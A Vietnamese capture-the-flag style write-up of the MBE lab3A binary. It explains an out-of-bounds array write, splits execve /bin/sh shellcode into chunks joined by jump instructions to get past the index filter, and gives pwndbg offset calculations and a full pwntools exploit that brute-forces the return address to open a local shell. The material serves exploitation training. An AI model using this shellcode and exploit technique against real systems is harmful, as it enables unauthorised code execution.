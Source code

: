# Program 

### Bài này sẽ cho chúng ta 1 chương trình, mình xin được phép tóm tắt như sau:
* store_number: nhập số và nhập index, thỏa điều kiện ---> lưu
* read_number: nhập index ---> xuất ra giá trị tại index đó 
* main: clear env và arg, chạy vòng lặp while true.

Thoạt đầu thì nhìn chương trình rất bình thường, vậy lỗi ở đâu???
Chúng ta cùng xem qua hàm store_number:
```sh
int store_number(unsigned int * data)
{
    unsigned int input = 0;
    unsigned int index = 0;

    /* get number to store */
    printf(" Number: ");
    input = get_unum();

    /* get index to store at */
    printf(" Index: ");
    index = get_unum();

    /* make sure the slot is not reserved */
    if(index % 3 == 0 || (input >> 24) == 0xb7)
    {
        printf(" *** ERROR! ***\n");
        printf("   This index is reserved for quend!\n");
        printf(" *** ERROR! ***\n");

        return 1;
    }

    /* save the number to data storage */
    data[index] = input;

    return 0;
}
```

mình nhận ra rằng chổ lưu dữ liệu của mình có thể bị lỗi, vì không kiểm tra điều kiện. Và mảng data chỉ khai báo có 100 phần tử. Nhưng có nó thể lưu các dữ liệu ở những nơi mà không phải dành cho mảng data.
Vậy mình sẽ dùng shellcode để spawn shell gồm 23 ký tự.
### Nhưng một điều nữa đó là lệnh if trong hàm store_number trên không cho phép chúng ta ghi đè shellcode 1 cách liên tiếp.


# solution

Chúng ta sẽ tạo shellcode động (cái tên này mình tự đặt thôi), tức là shellcode của chúng ta sẽ được đặt cách nhau những khoản cố định. 

Vì index % 3  == 0, không được phép sử dụng để đặt dữ liệu vào.

Vì thế chúng ta chỉ còn có `2 index` liền kề. `1 index` sẽ chứa 4 byte.
2 index sẽ chứa được 8 byte.
chúng ta sẽ chia như sau: 6 byte đầu chứa dữ liệu (cụ thể là shellcode), 2 byte cuối chứa lệnh nhảy(hoặc lệnh bỏ qua phần tử).

Đây là shellcode ban đầu:
`shellcode = "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80" `

Và đây là shellcode sau khi đã được điều chỉnh:

```sh

\x31 \xc0 \x50 \x90 

\x90 \x90 \xeb \x04

\x68 \x2f \x2f \x73   

\x68 \x90 \xeb \x04

\x68 \x2f \x62 \x69  

\x6e \x90 \xeb \x04
  
\x89 \xe3 \x89 \xc1   

\x89 \xc2 \xeb \x04

\xb0 \x0b \xcd \x80

```

\xeb\x04 là lệnh nhảy đến nơi chứa shellcode tiếp theo, hoặc là lệnh bỏ qua 4 byte.

Có được shellcode rồi thì chúng ta sẽ đến bước tiếp theo:

mình sẽ kiểm tra security của file
```sh
pwndbg> checksec
[*] '/home/zir/ctf/TrainingPwn/MBE_release/levels/lab03/lab3A'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
Đặt 2 breakpoint ở hàm store_number và quit của main.

```sh
pwndbg> break * main + 341
Breakpoint 1 at 0x8048b67
pwndbg> break * main + 553
Breakpoint 2 at 0x8048c3b
```
Run để tính offset

```sh
────────────────────────────[ DISASM ]─────────────────────────────

 ► 0x8048b67 <main+341>    call   store_number <store_number>
        arg[0]: 0xffffcec8 ◂— 0x0
        arg[1]: 0x8048f5d ◂— jae    0x8048fd3 /* 'store' */
        arg[2]: 0x5
        arg[3]: 0x9

--------------------------------------------------------------------
pwndbg> ni
 Number: 1234
 Index: 1
--------------------------------------------------------------------

pwndbg> c
Continuing.
 Completed store command successfully
Input command: quit

--------------------------------------------------------------------
 EAX  0x0
*EBX  0x0
*ECX  0x0
*EDX  0xffffd058 ◂— 'quit'
*EDI  0x0
 ESI  0xf7fb1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
*EBP  0x0
*ESP  0xffffd07c —▸ 0xf7df1f21 (__libc_start_main+241) ◂— add    esp, 0x10
*EIP  0x8048c3b (main+553) ◂— ret    
──────────────────────────────[ DISASM ]───────────────────────────

 ► 0x8048c3b  <main+553>                 ret             <0xf7df1f21; __libc_start_main+241>

--------------------------------------------------------------------

pwndbg> p/d 0xffffd07c-0xffffcec8
$1 = 436
pwndbg> p/d 436/4
$2 = 109

```

Vậy thì khi index bằng 109 thì sẽ là hàm main của chúng ta.
Viết file exploit như sau:
```sh
from pwn import *


def store(val,index):
	p.sendline("store")
	p.recv(100)
	p.sendline(str(val))
	p.recv(100)
	p.sendline(str(index))
	p.recv(100)

'''
\x31 \xc0 \x50 \x90 

\x90 \x90 \xeb \x04

\x68 \x2f \x2f \x73   

\x68 \x90 \xeb \x04

\x68 \x2f \x62 \x69  

\x6e \x90 \xeb \x04
  
\x89 \xe3 \x89 \xc1   

\x89 \xc2 \xeb \x04

\xb0 \x0b \xcd \x80

'''
add_buff = 0xffffcecc
while (1):	
	p = process("./lab3A")
	raw_input("DEBUG")
	store(0x9050c031,1)
	store(0x04eb9090,2)

	store(0x732f2f68,4)
	store(0x04eb9068,5)

	store(0x69622f68,7)
	store(0x04eb906e,8)

	store(0xc189e389,10)
	store(0x04ebc289,11)

	store(0x80cd0bb0,13)

	store(add_buff,109)

	p.sendline("quit")
	p.interactive()
	add_buff= add_buff + 4
```
sau khi run file sẽ tăng dần các địa chỉ return về shellcode. Do là khi chạy trên gdb sẽ có chút ít khác so với không dùng gdb vì các tham số, biến môi trường....v.v.

Run file exploit.py
```sh
[+] Starting local process './lab3A': pid 19252
DEBUG
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 

```
sẽ có thể gặp GOT EOF do địa chỉ ko đúng.
Nhấn `Enter` vài lần nữa để thay đổi địa chỉ

```sh
[*] Got EOF while sending in interactive
[+] Starting local process './lab3A': pid 19380
DEBUG
[*] Switching to interactive mode
$ 
$ 
$ 
$ id
uid=1000(zir) gid=1000(zir) groups=1000(zir),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)

```
Và tadaaa... :3

